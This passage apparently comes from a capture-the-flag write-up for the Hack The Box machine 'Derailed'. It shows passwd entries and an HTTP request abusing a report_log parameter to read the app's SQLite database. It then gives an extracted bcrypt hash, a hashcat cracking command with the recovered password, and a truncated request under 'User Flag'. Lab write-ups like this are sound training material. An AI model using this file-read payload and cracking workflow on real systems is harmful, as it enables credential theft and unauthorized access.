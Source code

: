 User with a home directory

```bash
openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
rails:x:1000:100::/home/rails:/bin/b
```

### SQLITE DB

Let's get some password hashes from the sqlite db associated to our app.  
We found the root dir by checking [http://derailed.htb:3000/rails/info/properties](http://derailed.htb:3000/rails/info/properties)

```http
POST /administration/reports HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/administration
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=TiLYZIXXX8CU2LriSxudexcexpRaPkIrY7WCZgjx7FQ1158UOiivkNDNH8spedEAJHAAneVmDR7TG52E5IBVaNjtjSDftzrY%2F%2FHRKJ0fFn8oX56UjfTE3Dhtt97yrIBC%2BZbctzUmwOAUoTpmM%2FqgM4glh%2BZcH4wEKAC1PRnz0Gyc%2BvBcIFqAWA5CNVvi5hMuOj0cO077oxOan9fFnpKyS%2BIv4zqbVl6hvsTE0QFEoeeWxJrnPcnaVKEx5YO3TBiuABMMKfW8OEOPIV9WqaS8jGBBoWjKHwkUJRycichC8Y%2BCqym2X9Mk84eEef7i--lPj1DYuDKnw7odz3--e9mW0ktnlbIQvXiCHC72uA%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=d8k7ShkPXhKVnovD4eLRvWNJFYV7JyRzLYl4R9VIftHrcWWdkB6s9ULwTbnOwh_qXhLA-0VKqblf87x4lcs3JQ&report_log=/var/www/rails-app/db/development.sqlite3
```

```bash
# Save the hash in a new file
toby:$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle
```

```bash
# PW = greenday
hashcat -m 3200 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt
```

### User Flag

```http
POST /administration/reports HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/administration
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
```